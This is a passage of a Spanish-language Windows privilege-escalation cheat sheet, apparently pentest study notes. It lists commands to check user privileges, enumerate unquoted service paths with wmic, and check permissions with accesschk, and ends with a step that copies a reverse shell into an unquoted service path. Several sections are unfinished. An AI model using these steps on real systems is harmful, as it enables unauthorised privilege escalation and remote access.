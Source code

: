 2º Buscar en Searchsploit cualquier exploit del kernel

## Versión de Software
El eumerador automatico nos avisa sino se rellena pronto

## Version de servicio
Buscaremos los servicios y la version, esto se rellenara pronto
# Desconfiguraciones

## Privilegios de Usuario

Mirar los privilegios del usuario
~~~~c
>> whoami /priv
~~~~

## Servicios


### Unquoted Service Path

1º Mediante el enumerador automatico que tengamos nos muestra un unquoted servce path

1º Enumerar manualmente los unquoted paths
~~~~c
>> wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
~~~~

O

~~~~c
>> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
~~~~


2º Comprobar los permisos que tiene el servicio
~~~~c
>> .\accesschk.exe /accepteula -ucqv SERVICIO
"NOTA: Recuerda que el servicio tiene que tener tanto START como STOP"
~~~~


3º Comprobamos si nuestro grupo tiene permiso para manipular el directorio
NOTA: para crear el nombre de la reverse shell  lo creamos igual que el nombre del ejecutable
~~~~c
>>.\accesschk /accepteula -uwdq "C:\PATH\DEl\SERVICIO"
~~~~

4º Copiamos reverse shell en cualquier parte del path descomillado
~~~~c
>> copy REVERSE "C:\PATH\DEl\SERVICIO"
~~~~
